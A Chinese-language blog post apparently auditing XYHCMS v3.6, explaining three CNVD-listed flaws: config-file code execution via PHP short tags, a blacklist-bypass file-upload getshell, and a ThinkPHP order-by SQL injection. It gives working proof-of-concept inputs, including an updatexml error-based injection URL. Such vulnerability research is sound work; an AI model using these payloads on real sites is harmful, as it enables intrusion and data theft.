

在CNVD上看一看有什么新的漏洞，看到了XYHCMS后台高危洞，决定看一看审一波
xyhcms v3.6 后台命令执行
官网下载最新版代码，看到是v3.6，按照流程直接安装，然后进入后台
根据CNVD上提到的文件，搜索一下
根据经验，查看SystemController.class.php，可以看到对后台过滤不严
在 site()函数中，查看第214行开始
1 | $data = I('config', array(), 'trim'); |
并没有对短标签进行过滤，所以可以在后台的配置文件中写入如下内容
1 | =phpinfo(); |
然后直接访问配置文件就可以了
总结一下这个漏洞，个人感觉后台getshell的洞都挺鸡肋的，开发人员想到了过滤，但是采取黑名单的方式过滤难免产生过滤不严格的问题。
xyhcms v3.6 后台文件上传getshell
根据CNVD，还有一个文件上传getshell的洞，接着看源码，在第246行
1 | if (!empty($data['CFG_UPLOAD_FILE_EXT'])) { |
又是黑名单过滤，这里可以采用phtml，php5，php7等方式，但是需要.htaccess解析这些文件后缀，还是有局限性的
这里以上传phtml为例，先在允许附件类型里加上phtml
然后直接上传水印图片，上传的文件内容为
1 | GIF89A<?php phpinfo();?> |
上传后直接回显了文件路径

访问发现成功上传getshell
总结一下，黑名单过滤是万恶之源
xyhcms v3.6 前台sql注入
然后想一想之前红帽杯遇到过一个xyhcms的sql注入的洞，不知道新版本修了没，尝试测一下，发现这个洞还在，找了一下CNVD
这里就分析一下漏洞原理以及利用方式了
漏洞原理为ThinkPHP在处理order by排序时，当排序参数可控且为关联数组(key-value)时，由于框架未对数组中key值作安全过滤处理，攻击者可利用key构造SQL语句进行注入
漏洞代码如下(Include/Library/Think/Db/Driver.class.php 第667行)
1 | protected function parseOrder($order) { |
可以看到当order为数组时，并未对key进行过滤，直接拼接
然后查找函数调用，全局搜索orderby，在App/Api/Controller/LtController.class.php中发现传入了orderby
第62行
1 | $order_by = I('orderby', 'point DESC,id DESC'); |
在I函数中并没有进行过滤，然后在第177行
1 | $_list = D2('ArcView', $_table_name)->nofield($nofield)->where($where)->order($order_by)->limit($limit)->select(); |
执行了查询，可以在parseOrder处下个断点看一下
可以看到已经带入执行，接下来找回显点，或者采用时间盲注，这里可以根据日志直接报错注入，日志的位置如下
1 | /xyhcms/App/Runtime/Logs/Api/20_02_03.log |
可以看到，成功得到了查询结果
payload如下
1 | /xyhcms/index.php/Api/Lt/alist?orderby[updatexml(1,concat(0x3a,(select%20user()),0x3a),1);]=1 |
总结来说，这个cms的主要采用黑名单来进行过滤，而且对传入的参数过滤也不严格，导致了这些高危漏洞